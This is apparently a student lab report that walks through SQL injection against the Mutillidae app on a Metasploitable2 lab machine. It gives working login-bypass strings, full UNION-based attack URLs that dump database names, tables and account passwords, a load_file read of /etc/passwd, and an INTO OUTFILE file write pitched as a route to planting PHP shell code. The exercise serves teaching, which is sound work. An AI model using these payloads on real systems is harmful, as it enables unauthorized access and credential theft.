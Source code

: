 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![1](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/cb126fef-27cf-451d-bad1-aee380e1436b)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. Screenshot 2023-06-10 213747 Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![2](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/5ebbbcf6-5240-403e-86c1-ca14993e279a)

![3](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/4f228bbc-f120-4b84-a9f7-903e6688192d)

Click on the link “Please register here” Screenshot 2023-06-10 214117

Click on “Create Account” to display the following page: Screenshot 2023-06-10 214903 The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![4](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/c1101def-37c1-4058-9835-23fd834e08dd)

Click “Login”. The logged in page will show as below: 
![5](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/13e542a9-1762-48d5-9a7c-7a3ca5d0e4ac)

Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![6](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/52a41e42-f27c-4bf4-9ee0-ccd97cfcb990)

Click the login button and you will see it enter into the administrator page.
![7](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/855f4270-42f9-4c3b-83d7-b23412670988)

Union-based SQL injection

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: 
![8](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/21080d30-2d0f-46ae-9618-a3f7bddb39a3)


![9](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/d5e33413-415a-4ea4-92ff-464744c4467d)

![10](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/af7fb74d-937f-43d5-8b85-cc1668e140cd)

![11](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/4bd48827-6f41-42bb-97b6-4a5e1899d23b)

![12](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/8594b53f-976e-454d-a08c-32fdd6966cc2)
 From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
 ![13](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/0bc4eaf3-41c5-4734-9142-735ddb895185)


Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![14](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/8797dc5a-b1dc-4138-be31-e78c855fb162)

After adding the order by 6 into the existing url , the following error statement will be obtained: 
![15](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/e5fec3c9-a23b-45a7-946f-862049aeaeda)


When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. ![16](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/1c7349ce-348d-44bc-9f09-b09e27a597c7)


As it is having 5 columns the query worked fine and it provides the correct result

![17](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/81b5786b-c48c-4185-9086-a42977cfbf9c)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![18](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/ca7c1f0f-1525-4380-bd04-16a3fd254cd9)

 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 
 ![19](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/dfb6efd8-d432-447b-a164-73cc5a3e2733)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![20](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/9455bcaf-9acc-4d23-b434-2d269b8363d6)
 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![21](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/598f3bf3-c004-493c-9035-003d8fb63499)

The url once executed will retrieve table names from the “owasp 10” database.
Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![22](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/0fd4650b-d1a2-4811-a319-dc61c06e7179)
 The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![23](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/fdbf6866-ff53-4ef0-8a9f-5c6763046b62)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![24](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/71512939-38ce-43f6-bfd6-b824c4d6a845)
Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![25](https://github.com/lokeshrahulv/sqlinjection/assets/118423842/54882b42-4349-44d3-b940-a0e21085576c)
 the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
